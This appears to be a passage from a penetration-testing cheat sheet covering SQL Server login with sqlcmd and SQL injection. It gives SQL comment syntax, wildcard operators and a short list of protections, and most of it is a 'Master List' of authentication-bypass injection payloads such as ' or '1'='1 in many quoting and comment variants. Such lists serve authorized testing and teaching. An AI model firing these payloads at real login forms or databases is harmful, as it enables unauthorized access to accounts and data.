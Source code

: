 ```c
$ sqlcmd -S <RHOST> -U <USERNAME>
$ sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'
```

## SQL Injection (SQLi)

> https://github.com/payloadbox/sql-injection-payload-list

> https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet

### Comments

```c
#       // Hash comment
/*      // C-style comment
-- -    // SQL comment
;%00    // Nullbyte
`       // Backtick
```

### Wildcard Operators

`%a` value starts with `a`
`e%` value ends with `e`

### Protection

* Prepared Statements (Parameterized Queries)
* Input Validation
* Escaping User Input

### Master List

```c
';#---
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
